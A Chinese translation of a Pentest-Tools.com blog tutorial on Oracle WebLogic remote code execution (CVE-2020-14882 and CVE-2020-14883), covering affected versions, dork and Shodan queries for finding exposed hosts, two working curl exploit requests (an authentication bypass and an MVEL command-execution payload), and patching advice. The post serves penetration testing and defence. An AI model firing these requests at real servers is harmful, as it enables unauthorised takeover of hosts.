


# 如何检测和利用 Oracle WebLogic RCE(CVE-2020-14882 和 CVE-2020-14883)| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-exploit-oracle-weblogic-rce-2020>

Pentesters 喜欢好的 RCE，但是，正如我们享受发现和利用它的兴奋(当然是伦理上的)，每次这些东西出现时，技术生态系统都会受到影响。

这就是为什么快速有效的侦察和漏洞评估仍然是必不可少的测试阶段，可以帮助公司管理风险，以便他们可以继续开展业务并为客户服务。凭借你的知识、经验和建议，他们可以将潜在的危险转化为让他们变得更强大的过程。

让我们更深入地了解一下在 Oracle WebLogic Server 中发现的严重 RCE 漏洞，看看如何在您的组织内外产生更大的积极影响。

## **什么是 Oracle WebLogic？**

**WebLogic Server** 是基于 Java 的应用服务器；用于开发和部署多层分布式企业应用程序的平台。webLogic Server 集中了应用程序服务，如 Web 服务器功能、业务组件和对后端企业系统的访问，还可以用作高级 Web 应用程序的主 Web 服务器。

全球超过 7000 家公司使用 WebLogic，这使它成为技术生态系统的重要组成部分。

## **Oracle WebLogic RCE 漏洞的工作原理(CVE-2020-14883)**

**CVE-2020-14882** 允许远程用户绕过管理员控制台组件中的验证。导致此漏洞的原因是服务器 URL 的**路径遍历黑名单**配置不正确，您可以在 WebLogic HTTP access 的处理程序类中找到该黑名单。

您可以通过使用双编码字符串(如`%252e%252e%252fconsole.portal`)绕过服务器 URL 的黑名单。

**CVE-2020-14883** 允许未经授权的用户**在管理员控制台组件上执行任何命令**。由此带来的风险是，未经验证的远程攻击者可以通过 HTTP 在 Oracle WebLogic server 上执行任意命令，并且**完全控制主机**。

## **易受攻击的 Oracle WebLogic 版本**

受影响的受支持版本包括 10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0 和 14.1.1.0.0。该漏洞的 CVSSv3 得分为 9.8 ，因为利用它不需要非常复杂的攻击。

自 2020 年 10 月以来，补丁已经可用，但很可能仍然存在大量易受攻击的实例。

## **如何找到易受 CVE-2020-14882 和 CVE-2020-14883 攻击的目标**

您可以使用 **Google Dorks** 通过以下搜索查询找出使用潜在易受攻击版本的 WebLogic 主机:**inurl:"/console/log in/loginform . JSP "**



或者，您可以使用 Shodan.io 在互联网上找到一些易受攻击的目标。您可以使用以下 Shodan 查询来查找潜在易受攻击的 WebLogic servers:

**产品:“Oracle WebLogic”**



## **CVE-2020-14882 和 CVE-2020-14883** 的业务影响

通过 RCE 访问，攻击者可以轻松进入 WebLogic server。由于获得了高权限，恶意黑客可以执行任何管理操作并完全控制应用程序。

## **如何在道德黑客活动中手动检测 CVE-2020-14882&CVE-2020-14883**

首先，您可以通过向双编码端点发送简单的 HTTP GET 请求来绕过控制台组件的身份验证，该端点包含控制台门户页面并执行 **CVE-2020-14882** 漏洞。

```
curl -k -X "GET" https://<HOST>/console/css/%252e%252e%252fconsole.portal
```

此 HTTP GET 请求会将您重定向到管理员控制台页面，这将绕过身份验证，从而确认您的目标服务器易受攻击。

然后，您将连接到目标域，并能够配置、监视和控制应用程序。

通过利用 **CVE-2020-14883，**你可以在`com.tangosol.coherence.mvel2.sh.ShellSession`类的句柄下通过 MVEL 表达式发送命令。这会导致远程代码执行，使得未经验证的恶意攻击者能够在服务器上执行任意代码。

```
curl -k -X "GET" https://<HOST>/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/pentest00ls');")
```

该 HTTP GET 请求将在目标系统的/tmp 目录中创建一个文件，并触发远程代码执行。

如果你想尝试另一种更快的探测策略，你可以使用 Pentest-Tools.com

## **如何缓解 CVE-2020-14882&CVE-2020-14883**

你可以阅读[甲骨文关键补丁更新咨询](https://www.oracle.com/security-alerts/cpuoct2020.html)并遵循他们推荐的步骤。此外，您应该尽可能将 WebLogic server 更新到最新版本。

这不是你听到的最后一个 RCE 漏洞。谁知道今年或明年(或后年)会出现多少更严重的漏洞？

有所不同的是有一个流程来区分最有价值的资产的优先级，并知道如何在它们受到高度可利用的漏洞影响时进行验证。

通过我们的实用测试指南，我们为您提供专业知识、有用的方法和有价值的见解，扩展您的知识和能力。如果您有任何需要我们报道的具体内容，请告诉我们。